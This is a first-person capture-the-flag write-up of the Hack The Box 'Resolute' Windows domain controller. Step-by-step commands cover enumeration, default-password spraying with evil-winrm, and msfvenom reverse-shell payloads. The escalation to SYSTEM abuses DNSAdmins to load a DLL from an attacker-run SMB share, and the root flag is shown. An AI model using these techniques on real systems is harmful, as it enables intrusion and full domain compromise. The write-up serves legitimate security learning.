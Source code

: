 # Resolute
IP: 10.10.10.169
## You know the drill..
Standard initial recon via nMap, discovered many open ports:
```console
root@kali:~# nmap -sV -p1-65535 10.10.10.169                                                                                                                                                                       
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-30 18:13 EST                                                                                                                                                    
Nmap scan report for 10.10.10.169                                                                                                               PORT      STATE SERVICE      VERSION                                                                                                            
53/tcp    open  domain?
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-01-30 23:20:42Z)                                             
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49688/tcp open  msrpc        Microsoft Windows RPC
49910/tcp open  msrpc        Microsoft Windows RPC
61911/tcp open  unknown
```

LDAP is open, so enum4Linux is able to query the LDAP port. 

enum4linux returns some server logs, I see that the default password for marko is Welcome123! 
```
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko Name: Marko Novak       Desc: Account created. Password set to Welcome123!
```
I attempt to login to marko's account - but he has changed his password, but maybe someone else hasn't?
Using the results from enum4linux im able to grab a list of users - so I wrote a quick srcipt to attempt to login via WinRM using Evil-WinRM.

## Always count on laziness
I can login to melanie's account!
```console
evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!
```
I grab the user flag then look around, I can't see anything useful - after a lot (like a lot) of careful enumeration, I find credentials for ryan:

> Serv3r4Admin4cc123!

## Ryan
I login to ryan's account:
```console
evil-winrm -i 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!
```
I look around for a bit then try to get a meterpreter shell, I compile a .exe payload with msfvenom, however, windows defender catches it. 

Hmm, what can I do?

## Antivirus evasion

To evade the AV, I compile a non-staged msfvenom payload - but I need to know the arcitecture.
```
PS C:\Users\ryan\Documents> [IntPtr]::Size
8
```
8 means 64 bit.
So I complile a x64 payload:
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.**.** LPORT=4444 --platform=windows -f exe > shell.exe
```
Defender still catches it.

## This is getting kinda hard.
I run:
C:\> whoami /groups

I can see ryan is part of DNSAdmin - an attack vector!
DNSAdmin's are able to add DLL plugins to the DNS server.

But I still have to sneak the payload past windows defender.

I looking back over the nMap results - I spot the SMB port, google tells me AV's don't scan arrivals via SMB. (for some reason?)

## Preparation
Impacket is a python networking tool which allows me to serve files to SMB.

I complile a payload as .dll by running:

```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.**.** LPORT=4444 --platform=windows -f dll > plugin.dll
```

Start a SMB server with Impacket:
```console
$ python3 smbserver.py share ~/tools/plugin.dll
```
Listen with metasploit:
```
msf5 > use exploit/windows/x64/shell_reverse_tcp
msf5 > use multi/handler
msf5 exploit(multi/handler) > run
```
## Exploitation
To hook it to the DNS server I need to figure out the FQDN, I can use ping:
```
C:\> ping -a 10.10.10.169
Pinging Resolute.megabank.local [10.10.10.169] with 32 bytes of data:                                  
Reply from 10.10.10.169: bytes=32 time<1ms TTL=128                                                     
```
The FQDN is 'Resolute.megabank.local'.

Now to hook the DLL:
```
C\:>dnscmd Resolute.megabank.local /config /serverlevelplugindll \\10.10.**.**\tools\plugin.dll
```
With the impacket SMB server running and meterpreter listening, I consecutivly run:
```
C:/> sc.exe stop dns
C:/> sc.exe start dns
```
## Rooted!

I got SYSTEM!
```
msf5 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.68:443 
[*] Command shell session 2 opened (10.10.14.68:443 -> 10.10.10.169:50131)

C:\ >whoami
nt authority\system
```
Grab the root flag:
```
C:\>type \Users\Administrator\Desktop\root.txt

e1d94876a506850d0c20edb5405e619c
```
And I'm done!

This was one of the most interesting machines I've cracked - I ended up learning a lot.

### Thanks for reading!
